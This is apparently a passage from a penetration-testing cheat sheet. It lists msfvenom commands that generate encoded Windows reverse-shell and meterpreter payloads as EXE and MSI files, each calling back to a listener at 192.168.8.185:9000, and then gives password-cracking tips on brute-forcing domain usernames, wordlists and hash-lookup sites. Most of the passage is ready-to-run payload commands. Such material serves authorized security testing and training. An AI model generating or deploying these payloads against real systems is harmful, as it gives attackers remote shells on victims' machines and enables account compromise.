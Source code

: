 To generate a `standalone executable` file use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o /root/Desktop/payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o /root/Desktop/payload.exe

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -o /root/Desktop/payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -o /root/Desktop/payload.exe
```

To generate an `MSI file` use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o /root/Desktop/payload.msi

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o /root/Desktop/payload.msi
```

Bytecode might not work on the first try due to some other bad characters. Trial and error is the key.

So far there is no easy way to generate a DLL nor MSI file with a stageless meterpreter shell due to the size issues.

<p id="4-password-cracking"/>

## 4. Password Cracking

**Google a hash before trying to crack it because you might save yourself a lot of time and trouble.**

Use Google Dorks to find files and within file's properties a domain username to brute force or use [FOCA](#foca).

Keep in mind that you might lockout someone's account.

Keep in mind that some web forms implement CAPTCHA and/or hidden submission tokens which prevents you from brute forcing.

You can find a bunch of wordlists located at `/usr/share/seclists/` directory.

<p id="4-password-cracking-useful-websites"/>

### Useful Websites

[gchq.github.io/CyberChef](https://gchq.github.io/CyberChef/)

[www.onlinehashcrack.com](https://www.onlinehashcrack.com)
